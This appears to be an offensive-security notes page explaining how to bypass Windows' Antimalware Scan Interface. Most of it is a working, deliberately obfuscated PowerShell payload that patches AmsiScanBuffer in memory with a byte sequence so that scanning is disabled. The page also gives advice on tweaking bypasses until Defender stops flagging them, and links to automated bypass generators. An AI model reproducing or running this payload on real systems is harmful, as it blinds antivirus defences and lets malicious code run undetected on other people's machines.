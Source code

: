 ## AMSI

The Antimalware Scan Interface (AMSI) is a feature of Windows 10. Effectively it lets a process check input with the registered anti-virus product.

### Bypassing AMSI

The trick to bypassing AMSI is to effectively turn it off. Windows won't let you do this, by flagging attempts to turn AMSI off. So the main thing to do is obfuscate the script to do so. Any published bypass script will be flagged by defender (or other AV). So you will have to tweak and make your own version. Recommendation is to spin up a Win 10 VM and write the bypass step by step, see what parts are triggering the anti-virus.

#### Powershell

Example of a obfuscated AMSI powershell payload I have done, based on Rasta Mouse's work:

```powershell
$Simon= @"
using System;
using System.Runtime.InteropServices;

public class Simon {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Simon

$LoadLibrary = [Simon]::LoadLibrary("am" + "si.dll")
$Maglok = [Simon]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
$command = '[Simon]::Virtual' + 'Protect($Maglok, [uint32]5, 0x40, [ref]$p)'
iex $command
$command2 = '[Byte[]] (0x'+'B'+'8, 0x'+'5'+'7, 0'+'x00, 0'+'x0'+'7, 0x8'+'0, '+'0xC'+'3)'
$values = iex $command2
[System.Runtime.InteropServices.Marshal]::Copy($values, 0, $Maglok, 6)
```

### Useful links

* Rasta mouse's AMSI bypass scripts: [https://github.com/rasta-mouse/AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)
* Amsi.fail, automated AMSI bypass generation: [https://amsi.fail/](https://amsi.fail/)

